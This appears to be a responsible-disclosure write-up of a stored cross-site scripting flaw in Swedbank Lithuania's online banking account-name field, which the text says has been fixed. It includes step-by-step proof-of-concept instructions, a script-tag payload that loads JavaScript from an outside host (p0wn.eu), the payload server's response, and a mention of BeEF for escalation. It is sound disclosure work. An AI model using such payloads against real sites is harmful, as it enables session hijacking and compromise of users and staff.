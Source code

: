SWEDBANK: Stored-Cross-Site-Scripting vulnerability in Retail Banking application
=================================================================================

**Description**

A regular authenticated internet banking user has an option to set a bank’s account name to anything arbitrary with char limit of 35. The internet baking application hosted at https://www.swedbank.lt/private is vulnerable to a Stored-Cross-Site-Scripting attack in the this account name field. 
A malicious actor can set a specially crafted payload and save it to the own account. It is possible that other system’s users (banking personnel, call centre stuff etc.) who work regularly with retail clients could “find” this malicious payload while observing a specific account through routine tasks or on demand calls. This would lead to compromise other users and elevate privileges for an attacker.

**Proof-of-Concept**
Authenticate to the web application at:
https://www.swedbank.lt/private

Then open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases
(pageId = private.home.important.aliases)

Then change any account name to this payload:
`A<script src=“//p0wn.eu”></script>`
And save the user input form.

*Note* To make an isolated check from external network a simple hint can be used:
Point any short domain with a name like `p0wn.eu` and write an IP resolution into the system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```1. Privatiems▸
2. Kasdienės paslaugos▸
3. Apžvalga
```

(English)
```1. Private▸
2. Everyday banking▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview
-----------------------------------------------------
Or in mobile application goto
```1. Paslaugos
2. Kitos paslaugos
3. Mano finansų apžvalga
```

(English)
```1. Services
2. Other services 
3. Summary of my finances
```

Then the payload is executed (pictures included).

The issue with unfiltered user input and fail to sanitise output in the web content can lead to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center stuff etc.) who work regularly with retail clients.

Payload server `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
**Mitigation**
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference:
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

———————————————————
TIMELINE
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 Public release
———————————————————






